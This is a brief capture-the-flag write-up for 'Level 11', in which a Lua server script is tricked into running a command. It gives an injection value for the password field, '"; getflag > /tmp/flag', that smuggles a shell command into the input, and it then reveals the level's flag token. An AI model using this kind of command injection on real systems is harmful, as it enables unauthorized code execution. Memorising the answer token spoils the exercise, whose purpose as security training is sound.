 ## Level 11

In this exercice we have a lua script

This script is a sort of a server that will listen to a port and will compare the content that you give it with an expected hash.

As level07, you can use the getflag function to get the flag but this time by adding it to the password
        Passord: "; getflag > /tmp/flag"
        cat /tmp/flag
    
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s